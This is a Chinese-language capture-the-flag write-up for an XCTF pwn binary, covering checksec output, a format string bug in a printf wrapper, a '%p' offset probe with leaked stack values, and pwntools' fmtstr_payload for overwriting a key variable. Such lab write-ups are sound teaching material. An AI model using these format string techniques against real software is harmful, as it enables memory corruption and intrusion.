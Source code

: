 1、准备工作
（1）chmod 777 实时数据监测
（2）file 实时数据监测
显示：
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5035740866e7d9977e82b84049f48c683c06fbb9, not stripped
（3）./实时数据监测
显示：
./实时数据监测 
s
s
The location of key is 0804a048, and its value is 00000000,not the 0x02223322. (╯°Д°)╯︵ ┻━┻
（4）脚本checksec：
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
2、思路
在locker()函数中由于第六行中512<0x208，不存在缓冲区溢出漏洞，
但第7行的函数存在格式化字符串漏洞
int __cdecl imagemagic(char *format)
{
  return printf(format);
}
dudu@kali:~/桌面/learn/pwn/xctf/进阶$ ./实时数据监测 
AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
AAAA-0xf7f662c0-0xffae5664-(nil)-0xf7f30000-0xf7f30000-0xffae5618-0x80484e7-0xffae5410-0x200-0xf7f30580-0xf7f5556d-0x41414141-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025
The location of key is 0804a048, and its value is 00000000,not the 0x02223322. (╯°Д°)╯︵ ┻━┻

fmtstr_payload是pwntools里面的一个工具，用来简化对格式化字符串漏洞的构造工作。
实际上我们常用的形式是fmtstr_payload(offset,{address1:value1})


